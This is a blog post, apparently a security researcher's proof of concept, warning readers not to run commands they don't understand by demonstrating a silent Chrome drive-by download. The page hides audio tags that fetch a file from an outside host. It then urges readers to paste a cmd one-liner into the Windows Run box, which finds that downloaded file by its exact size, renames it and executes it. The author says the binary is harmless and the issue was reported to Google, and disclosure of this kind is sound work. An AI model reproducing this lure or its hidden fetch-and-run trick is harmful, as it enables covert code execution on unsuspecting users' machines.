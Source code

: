 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome (rather similar to CVE-2011-0611, but without the automatic execution part), as well as some social engineering magic: a PoC binary will execute if the below seemingly harmless command line is entered in a **Win+R** prompt on a Windows system. Note that you may need to wait for a few seconds before the fun starts.

**Just run this and be surprised:**

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<IMG src=https://i.imgur.com/jgmi7XN.png>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
